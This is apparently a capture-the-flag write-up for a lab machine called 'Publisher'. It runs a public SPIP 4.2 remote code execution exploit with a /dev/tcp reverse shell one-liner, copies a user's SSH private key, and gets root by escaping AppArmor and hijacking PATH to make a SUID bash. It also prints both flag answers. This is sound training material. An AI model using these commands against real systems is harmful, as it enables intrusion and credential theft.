









## Enumeration

### Nmap Scan

Starting with a comprehensive nmap scan to identify open ports and services:

```bash
nmap -p- -vv <TARGET_IP> -sV
```

**Results:**
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have SSH and HTTP services running. Let's explore the web application on port 80.



### Web Application Discovery

The website appears to be a Single Page Application (SPA) with a mention of the word `admin`, which could be a potential username. Let's use `ffuf` to fuzz for additional endpoints:

```bash
ffuf -u http://<TARGET_IP>/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 1000 -s -e .php,.html,.bak,.txt
```

**Interesting Results:**
```
images
index.html
spip
server-status
```

The `spip` endpoint looks interesting. Let's visit it and see what's inside.



### SPIP Directory Enumeration

Further enumerating the `/spip/` endpoint reveals several interesting files:

```bash
ffuf -u http://<TARGET_IP>/spip/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 1000 -s -e .php,.html,.bak,.txt
```

**Results:**
```
.php
local
index.php
vendor
config
tmp
LICENSE
spip.php
htaccess.txt
ecrire
prive
```

Many endpoints are present, with several files in French. After examining `htaccess.txt`, we discover the version information: `# Fichier .htaccess SPIP v 4.2 #` - **SPIP v 4.2**.

## Initial Access

### Vulnerability Research

Let's search for public exploits for this framework and version using `searchsploit`:

```bash
searchsploit "spip 4.2"
```

**Results:**
```
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
SPIP v4.2.0 - Remote Code Execution (Unauthen | php/webapps/51536.py
---------------------------------------------- ---------------------------------
```

Perfect! We found an unauthenticated RCE exploit. Let's download and examine it:

```bash
searchsploit -m php/webapps/51536.py
```

**Exploit Details:**
- **CVE:** CVE-2023-27372
- **Type:** Remote Code Execution (Unauthenticated)
- **URL:** https://www.exploit-db.com/exploits/51536

### Reverse Shell

Now, let's execute the exploit to gain a reverse shell. First, start a netcat listener:

```bash
rlwrap nc -lnvp 1337
```

Using a reverse shell generator to get the correct command:



Execute the exploit script with our reverse shell payload:

```bash
python3 51536.py -u http://<TARGET_IP>/spip -c "bash -c \"bash -i >& /dev/tcp/10.48.68.80/1337 0>&1\""
```

Success! We have a shell:



## User Flag

Let's locate the user flag in the `/home` directory:

```bash
www-data@41c976e507f8:/home/think$ cat user.txt
fa229046d44eda6a3598c73ad96f4ca5
```

Great! We also notice a `.ssh` folder. Let's retrieve the `id_rsa` private key and attempt SSH login.



On your local system, after copying the private key, change its permissions to `600` and then SSH in as user `think`:

```bash
chmod 600 id_rsa
ssh -i id_rsa think@<TARGET_IP>
```

**SSH Login Successful:**
```
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-138-generic x86_64)
...
think@ip-10-48-185-43:~$
```

We're in! Now let's move on to privilege escalation.

## Privilege Escalation

### SUID Binary Analysis

Let's start by checking for SUID binaries:

```bash
find / -perm -u=s -type f 2>/dev/null
```

**Results:**
```
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd
/usr/sbin/run_container          <-- Custom binary
/usr/bin/at
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/umount
```

The `/usr/sbin/run_container` binary looks like a custom SUID binary. Let's examine it:

```bash
ls -la /usr/sbin/run_container
-rwsr-sr-x 1 root root 16760 Nov 14  2023 /usr/sbin/run_container
```

### Binary Analysis

Transfer the binary to our local machine for decompilation and analysis using a Python HTTP server:

```bash
python3 -m http.server
```

After decompiling using `Decompiler Explorer`, we can see the following source code:

```c
undefined8 main(undefined8 param_1,long param_2)
{
  long in_FS_OFFSET;
  char *local_38;
  undefined *local_30;
  char *local_28;
  undefined8 local_20;
  undefined8 local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_38 = "/bin/bash";
  local_30 = &DAT_0010200e;
  local_28 = "/opt/run_container.sh";
  local_20 = *(undefined8 *)(param_2 + 8);
  local_18 = 0;
  execve("/bin/bash",&local_38,(char **)0x0);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return 0;
}
```

**Key Observations:**
1. The function executes `/bin/bash` as `root`.
2. It references `/opt/run_container.sh` as input.

Let's check the permissions on this script:

```bash
ls -la /opt/run_container.sh
-rwxrwxrwx 1 root root 1715 Jan 10  2024 run_container.sh
```

Although the file has write permissions, attempts to edit it are denied. This suggests AppArmor restrictions are in place.

### AppArmor Bypass

Let's examine the AppArmor configuration to understand the restrictions:

```bash
cat /etc/apparmor.d/usr.sbin.ash
```

**AppArmor Configuration:**
```bash
#include <tunables/global>

/usr/sbin/ash flags=(complain) {
  #include <abstractions/base>
  #include <abstractions/bash>
  #include <abstractions/consoles>
  #include <abstractions/nameservice>
  #include <abstractions/user-tmp>

  # Remove specific file path rules
  # Deny access to certain directories
  deny /opt/ r,
  deny /opt/** w,
  deny /tmp/** w,
  deny /dev/shm w,
  deny /var/tmp w,        <-- Missing /** at the end!
  deny /home/** w,
  /usr/bin/** mrix,
  /usr/sbin/** mrix,

  # Simplified rule for accessing /home directory
  owner /home/** rix,
}
```

**The Vulnerability:**
The shell has many restrictions - we cannot read or write to `/opt/`, `/tmp/`, `/home/`, etc. However, there's a loophole in the restriction for `/var/tmp` and `/dev/shm`. To prevent writing files inside these directories, they should have added `/**` at the end, but they didn't. This means we can write to `/var/tmp/`!

### Exploitation

**Step 1:** Create a custom `docker` executable in `/var/tmp/`:

```bash
#!/bin/bash
cp /bin/bash /tmp/newbash
chmod +s /tmp/newbash
```

Make it executable and update the PATH:

```bash
chmod +x docker
export PATH=/var/tmp:$PATH
```



**Step 2:** Execute `/opt/run_container.sh` to switch to a `bash` shell (bypassing AppArmor restrictions):



**Step 3:** Now that we have a bash shell, we can modify the `/opt/run_container.sh` script. Add the following lines:

```bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```



**Step 4:** Execute the `/usr/sbin/run_container` binary, which will trigger `/opt/run_container.sh` as `root`:


## Root Flag

Execute the root shell using `/tmp/rootbash -p` and retrieve the flag from `/root`:

```bash
ls -la /tmp/rootbash
-rwsr-sr-x 1 root root 1183448 Jan  4 06:09 /tmp/rootbash

/tmp/rootbash -p
rootbash-5.0# whoami
root
rootbash-5.0# cat /root/root.txt
3a4225cc9e85709adda6ef55d6a4f2ca
```



Challenge solved!

## References

1. https://www.exploit-db.com/exploits/51536

---

## Answers

### Task 1 - Publisher

> The "Publisher" CTF machine is a simulated environment hosting some services. Through a series of enumeration techniques, including directory fuzzing and version identification, a vulnerability is discovered, allowing for Remote Code Execution (RCE). Attempts to escalate privileges using a custom binary are hindered by restricted access to critical system files and directories, necessitating a deeper exploration into the system's security profile to ultimately exploit a loophole that enables the execution of an unconfined bash shell and achieve privilege escalation.

1. **What is the user flag?**

   **Ans.** `fa229046d44eda6a3598c73ad96f4ca5`

2. **What is the root flag?**

   **Ans.** `3a4225cc9e85709adda6ef55d6a4f2ca`
